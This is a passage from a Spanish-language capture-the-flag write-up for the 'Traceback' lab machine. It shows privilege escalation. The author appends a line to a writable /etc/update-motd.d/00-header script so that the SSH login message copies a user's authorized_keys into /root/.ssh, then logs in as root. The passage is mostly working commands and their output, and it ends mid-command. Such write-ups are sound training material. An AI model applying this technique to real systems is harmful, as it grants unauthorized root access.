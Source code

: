 Vemos que existe un proceso que copia los ficheros del directorio **/var/backups/.update-motd.d/** al directorio **/etc/update-motd.d/**.
El fichero *"00-header"* se ejecuta cada vez que nos conectamos por **SSH**. 
Lo que vamos hacer es que nos copie la key ssh del usuario webadmin al usuario root, de esta forma podremos acceder por SSH.

```
sysadmin@traceback:/$ echo "cp /home/webadmin/.ssh/authorized_keys /root/.ssh/" >> /etc/update-motd.d/00-header
sysadmin@traceback:/$ cat /etc/update-motd.d/00-header
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
cp /home/webadmin/.ssh/authorized_keys /root/.ssh/

```
Realizamos una connexión por SSH para que ejecute el fichero *"00-header"*.

```
$ ssh -i id_rsa webadmin@10.10.10.181

```

Y ya podemos acceder con la clave por SSH al usuario root.

```
ssh -i id_rsa root@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Jan 24 03:43:29 2020
root@traceback:~# cat root.txt | cut -c0-20
cut: byte/character positions are numbered from 1
Try 'cut --help' for more information.
root@traceback:~# cat root.txt | cut -c 0-20
```